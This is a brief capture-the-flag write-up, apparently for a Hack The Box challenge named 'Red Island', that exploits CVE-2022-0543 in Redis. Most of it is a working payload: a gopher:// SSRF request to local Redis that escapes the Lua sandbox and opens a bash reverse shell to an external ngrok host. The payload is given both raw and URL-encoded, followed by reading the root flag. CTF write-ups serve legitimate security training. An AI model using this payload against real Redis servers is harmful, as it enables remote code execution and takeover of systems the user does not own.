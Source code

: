# Red Island


# RCE
_From @d4rkmod3_

[CVE-2022-0543](https://www.adminxe.com/3620.html)

payload:
```
gopher://127.0.0.1:6379/_*3
$4
eval
$237
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash -c 'bash -i >& /dev/tcp/6.tcp.ngrok.io/12355 0>&1'","r"); local res = f:read("*a"); f:close(); return res
$1
0
```

urlencode:
```
gopher://127.0.0.1:6379/_%2A3%0D%0A%244%0D%0Aeval%0D%0A%24237%0D%0Alocal%20io_l%20%3D%20package.loadlib%28%22%2Fusr%2Flib%2Fx86_64-linux-gnu%2Fliblua5.1.so.0%22%2C%20%22luaopen_io%22%29%3B%20local%20io%20%3D%20io_l%28%29%3B%20local%20f%20%3D%20io.popen%28%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F6.tcp.ngrok.io%2F12355%200%3E%261%27%22%2C%22r%22%29%3B%20local%20res%20%3D%20f%3Aread%28%22%2Aa%22%29%3B%20f%3Aclose%28%29%3B%20return%20res%0D%0A%241%0D%0A0
```


RCE và `cat /root/flag`

**HTB{r3d_righ7_h4nd_t0_th3_r3dis_land!}**